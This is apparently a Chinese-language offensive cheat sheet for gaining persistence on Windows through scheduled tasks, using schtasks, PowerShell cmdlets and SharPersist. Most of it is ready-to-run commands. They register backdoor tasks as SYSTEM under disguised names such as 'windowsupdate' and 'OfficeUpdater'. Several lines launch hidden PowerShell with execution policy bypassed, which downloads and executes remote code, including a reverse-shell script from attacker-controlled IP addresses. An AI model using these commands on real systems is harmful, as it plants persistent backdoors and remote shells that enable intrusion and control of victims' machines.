   #### 加载powershell
	>schtasks /Create /tn 名字 /tr 运行程序 /sc hourly /mo 1
	>schtasks /create /S TARGET /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.0.107:8080/Invoke-PowerShellTcp.ps1''')'"
  #### 执行exe
	创建计划任务
	>schtasks /create /RL HIGHEST /F /tn "windowsupdate" /tr "c:\windows\temp\update.exe" /sc DAILY /mo 1 /ST 12:25 /RU SYSTEM
	查看计划任务
	>schtasks /query | findstr "windowsupdate"
	立即执行某项计划任务
	>schtasks /run /tn "windowsupdate"
	删除某项计划任务
	>schtasks /delete /F /tn "windowsupdate"
	普通用户权限计划任务
	>schtasks /create /F /tn "windowsupdate" /tr "D:\user\zhangsan\file\windowsupdate.exe" /sc DAILY /mo 1 /ST 12:25 
	>schtasks /query | findstr "windowsupdate" 
	>schtasks /run /tn "windowsupdate" 
	>schtasks /delete /F /tn "windowsupdate" 
	>schtasks /tn "SysDebug" /query /fo list /v
  #### 使用powershell
  	PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
	PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
	PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
	PS C:\> $S = New-ScheduledTaskSettingsSet
	PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	PS C:\> Register-ScheduledTask Backdoor -InputObject $D
  #### 使用SharPersist
  	添加到当前计划任务
	>SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add

	添加新任务
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
	>SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
  #### 细节使用
	计划任务以 SYSTEM 身份运行，每天上午 9 点或特定日期。
	# Powershell
	$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\temp\backdoor.exe"
	$T = New-ScheduledTaskTrigger -Daily -At 9am
	或
	$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
	$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
	$S = New-ScheduledTaskSettingsSet
	$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
	Register-ScheduledTask "Backdoor" -InputObject $D

	schtasks
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"
	schtasks /create /sc minute /mo 1 /tn "eviltask" /tr calc /ru "SYSTEM" /s dc-mantvydas /u user /p password
	schtasks /Create /RU "NT AUTHORITY\SYSTEM" /tn [TaskName] /tr "regsvr32.exe -s \"C:\Users\*\AppData\Local\Temp\[payload].dll\"" /SC ONCE /Z /ST [Time] /ET [Time]

	(X86) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X86) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X86) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
	 
	(X64) - 在用户登录时
	schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
	 
	(X64) - 在系统启动时
	schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
	 
	(X64) - 在用户空闲时 (30mins)
	schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
